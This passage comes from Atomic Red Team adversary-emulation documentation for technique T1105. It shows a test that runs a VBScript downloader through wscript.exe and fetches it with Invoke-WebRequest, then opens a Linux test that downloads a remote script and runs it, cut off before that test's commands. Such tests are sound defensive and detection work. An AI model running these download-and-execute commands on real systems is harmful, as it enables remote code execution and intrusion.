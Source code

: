 | Name          | Description                                       | Type   | Default Value                                                     |
| ------------- | ------------------------------------------------- | ------ | ----------------------------------------------------------------- |
| vbscript_file | Full path to the VisualBasic downloading the file | string | PathToAtomicsFolder&#92;T1105&#92;src&#92;T1105-download-file.vbs |

#### Attack Commands: Run with `command_prompt`!

```cmd
wscript.exe "#{vbscript_file}"
```

#### Cleanup Commands:

```cmd
del Atomic-License.txt >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: #{vbscript_file} must be exist on system.

##### Check Prereq Commands:

```powershell
if (Test-Path "#{vbscript_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{vbscript_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105-download-file.vbs" -OutFile "#{vbscript_file}"
```

<br/>
<br/>

## Atomic Test #27 - Linux Download File and Run

Utilize linux Curl to download a remote file, chmod +x it and run it.

**Supported Platforms:** Linux

**auto_generated_guid:** bdc373c5-e9cf-4563-8a7b-a9ba720a90f3

#### Inputs:

| Name         | Description           | Type   | Default Value                                                                                    |
| ------------ | --------------------- | ------ | ------------------------------------------------------------------------------------------------ |
| remote_url   | url of remote payload | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh |
| payload_name | payload name          | string | atomic.sh                                                                                        |

#### Attack Commands: Run with `sh`!

